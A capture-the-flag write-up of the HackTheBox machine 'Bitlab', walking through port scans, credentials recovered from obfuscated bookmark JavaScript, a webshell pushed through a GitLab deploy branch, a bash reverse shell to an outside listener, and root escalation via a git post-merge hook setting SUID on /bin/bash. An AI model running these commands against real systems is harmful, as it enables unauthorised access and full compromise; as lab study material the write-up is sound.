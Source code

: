 ```yaml
---
description: Bitlab box from HackTheBox write up.
---
```


# Bitlab

## Nmap

As always a port scan to see where we start:

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- --min-rate=1000 10.10.10.114    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-28 15:59 CET
Nmap scan report for 10.10.10.114
Host is up (0.039s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 115.16 seconds

┌──(kali㉿kali)-[~]
└─$ sudo nmap -p22,80 -sC -sV 10.10.10.114
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-28 16:03 CET
Nmap scan report for 10.10.10.114
Host is up (0.039s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a23bb0dd2891bfe8f9308231232f9218 (RSA)
|   256 e63bfbb37f9a35a8bdd0277b25d4eddc (ECDSA)
|_  256 c9543d91017803ab16146bccf0b73a55 (ED25519)
80/tcp open  http    nginx
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.114/users/sign_in
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.07 seconds
```

## Port 80

### Our way in

This is a GitLab installation. By bruteforcing directories I found two registered users: `root` and `clave`. The rest of the directories were not interesting... until I clicked the help section.

In the `/help` directory, I found a directory listing with bookmarks. One of them was actually executing obfuscated javascript. After working on it for a bit, this is the code but readable:

```js
        (function() {
    var values = ["value", "user_login", "getElementById", "clave", "user_password", "11des0081x"];
    document[values[2]](values[1])[values[0]] = values[3];
    document[values[2]](values[4])[values[0]] = values[5];
})()
" ADD_DATE="
1554932142
```

Basically, this is trying to fill the login details for the user `clave`. We have credentials to login into GitLAB now! `clave:11des0081x`.

### Logged in as clave

Now we can explore the non public repositories. I found this snipped with what could be credentials for an internal database, I will let this here just in case.

```php
<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");
```

Then, remember when I said the directory brute force did not really discover important things? Well now I found that these pages are my way in:

```
http://10.10.10.114/profile
http://10.10.10.114/deployer/
```

Both applications have its repository in the GitLab page.The Deployer thing basically allows me to deploy new merged changes to the master branch of the Profile repository. Since we are allowed to push changes to the Profile `test-deploy` branch, I uploaded a webshell to the branch and I merged this changes into the master branch.

My new "feature" was deployed without me actually using the Deployer application so... thanks to the administrator I guess. We can now get a reverse shell into the machine by accesing the webshell I uploaded in `http://10.10.10.114/profile/test.php` and executing:

```bash
bash -c "/bin/bash -i >& /dev/tcp/10.10.14.25/8000 0>&1"
```

Remember that you need to prepare a listener in your machine!

## Pwned!

Inmediately I executed this:

```bash
www-data@bitlab:/var/www$ sudo -l
Matching Defaults entries for www-data on bitlab:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bitlab:
    (root) NOPASSWD: /usr/bin/git pull
```

As I expected, we can execute the `git pull` command as `root` (The Deployer application code is using `sudo`). 

There is something called hooks in Git that allows us to basically execute a task when something happens. We can execute as `root` the pull action, so the code inside a `post-merge` hook will run as `root`:

```bash
#! /bin/bash

chmod u+s /bin/bash
```

Of course we cannot do this in the original directory because it is owned by `root`, so we have to copy the repository to, for example, `/tmp` and create the hook there. The hook will covert the `/bin/bash` binary into a SUID binary we can use to escalate. In order for the hook to execute however, we need new changes in the upstream but that is not a problem since we can repeat what we did with the webshell but modifying the `README.md ` file or whatever.

Once everything is ready, pull the changes into our malicious repository and the box is pwned!

```bash
www-data@bitlab:/tmp/profile$ sudo /usr/bin/git pull
remote: Enumerating objects: 6, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 4 (delta 2), reused 1 (delta 0)
Unpacking objects: 100% (4/4), done.
From ssh://localhost:3022/root/profile
   c569005..6870424  master      -> origin/master
   4f20db1..5ccecd4  test-deploy -> origin/test-deploy
Updating c569005..6870424
Fast-forward
 README.md | 3 +--
 1 file changed, 1 insertion(+), 2 deletions(-)
www-data@bitlab:/tmp/profile$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
www-data@bitlab:/tmp/profile$ bash -p
bash-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

We could have also used this method but with a master and a slave repository so everything is self contained. Check this repository for an example: https://github.com/arnav-t/git-pull-priv-escalation.
